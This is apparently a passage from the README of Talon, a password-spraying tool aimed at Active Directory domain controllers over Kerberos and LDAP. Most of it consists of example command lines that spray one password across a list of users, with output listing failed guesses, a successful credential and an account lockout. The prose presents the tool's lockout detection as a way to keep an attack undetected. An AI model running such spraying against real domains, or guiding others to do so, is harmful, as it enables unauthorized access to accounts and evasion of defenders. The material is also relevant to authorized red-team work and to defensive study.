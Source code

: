 ```
./Talon -D STARLABS.LOCAL -Hostfile DCs -Userfile ValidUsers -P "Not3vil" -sleep 1

  __________  ________  ___       ________  ________
  |\___    _\\\   __  \|\  \     |\   __  \|\   ___  \
  \|___ \  \_\ \  \|\  \ \  \    \ \  \|\  \ \  \\ \  \
       \ \  \ \ \   __  \ \  \    \ \  \\\  \ \  \\ \  \
        \ \  \ \ \  \ \  \ \  \____\ \  \\\  \ \  \\ \  \
         \ \__\ \ \__\ \__\ \_______\ \_______\ \__\\ \__\
          \|__|  \|__|\|__|\|_______|\|_______|\|__| \|__|
					          (@Tyl0us)

                
[-]  172.16.144.186 STARLABS.LOCAL\admin:Not3vil = Failed
[-]  172.16.144.185 STARLABS.LOCAL\ballen:Not3vil = Failed
[-]  172.16.144.195 STARLABS.LOCAL\cramon:Not3vil = Failed
[+]  172.16.144.185 STARLABS.LOCAL\hwells:Not3vil = Success
[-]  172.16.144.195 STARLABS.LOCAL\ssmith:Not3vil = Failed
```

Talon is designed to be versatile given any situation as a result, if only Kerberos is available, Talon can be set to only attack against Kerberos using the `-K` flag or only LDAP using the `-L` flag.

Talon can use both Kerberos and LDAP to read the responses as we perform a password guessing attack. Talon can detect account lockouts during an active password guessing attack by reading the response code from each password attempt. This can help prevent any unwanted account locks across an enterprise, helping you to remain undetected. Simply follow the prompt to quit or continue the attack.

```
root@kali:~# ./Talon -Hostfile DCs -Userfile ValidUsers -D STARLABS.local -P "Password!" -sleep 2

  __________  ________  ___       ________  ________
  |\___    _\\\   __  \|\  \     |\   __  \|\   ___  \
  \|___ \  \_\ \  \|\  \ \  \    \ \  \|\  \ \  \\ \  \
       \ \  \ \ \   __  \ \  \    \ \  \\\  \ \  \\ \  \
        \ \  \ \ \  \ \  \ \  \____\ \  \\\  \ \  \\ \  \
         \ \__\ \ \__\ \__\ \_______\ \_______\ \__\\ \__\
          \|__|  \|__|\|__|\|_______|\|_______|\|__| \|__|
					          (@Tyl0us)


[-]  172.16.144.186 STARLABS.LOCAL\ballen:Password! = Failed
[-]  172.16.144.185 STARLABS.LOCAL\csnow:Password! = Failed
[-]  172.16.144.186 STARLABS.LOCAL\wwest:Password! = User's Account Locked
[*] Account lock out detected - Do you want to continue.[y/n]:
```


###



### Troubleshooting
Talon comes equip to detect if the  targeted domain controllers are active or become unavailable. This helps ensure your getting accurate results while not wasting time. 
